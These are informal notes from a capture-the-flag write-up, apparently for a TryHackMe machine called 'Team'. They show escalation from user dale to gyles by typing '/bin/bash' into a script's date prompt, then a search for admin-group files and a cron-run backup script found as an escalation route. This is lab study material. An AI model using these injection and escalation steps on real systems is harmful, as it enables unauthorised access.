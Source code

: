 [[Sudo - as a different user]]

- used this command to run the file as `gyles`
```
dale@TEAM:/home/gyles$ sudo -u gyles /home/gyles/admin_checks
```

- in the date promt we get a RCE as gyles
```
Enter 'date' to timestamp the file: id
The Date is uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),1003(editors),1004(admin)
Stats have been backed up
```

- this gives us shell as gyles
```
Enter 'date' to timestamp the file: /bin/bash
```

- in the contents of `admin_checks` i can see this
```
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak
```

bianry `cp` is running without full path. I had solved this priv esc in a machine before [[Archangel]]


this did not work so used the writeup
https://github.com/BJConway/thm_writeups/blob/main/challenges/team.md

- we had to find all the files owner by an `admin` group using
```
find / -group admin 2>/dev/null
```

we get this 

```
find / -group admin -ls 2>/dev/null
   391594      4 drwxrwxr-x   2 root     admin        4096 Jan 17  2021 /usr/local/bin
   
   395905      4 -rwxrwxr-x   1 root     admin          65 Jan 17  2021 /usr/local/bin/main_backup.sh
   
    24326      4 drwxrwx---   2 root     admin        4096 Jan 17  2021 /opt/admin_stuff
```

- in `/opt/admin_stuff` we find this script with the content

```
#I have set a cronjob to run this script every minute


dev_site="/usr/local/sbin/dev_backup.sh"
main_site="/usr/local/bin/main_backup.sh"
#Back ups the sites locally
$main_site
$dev_site
pwd

```
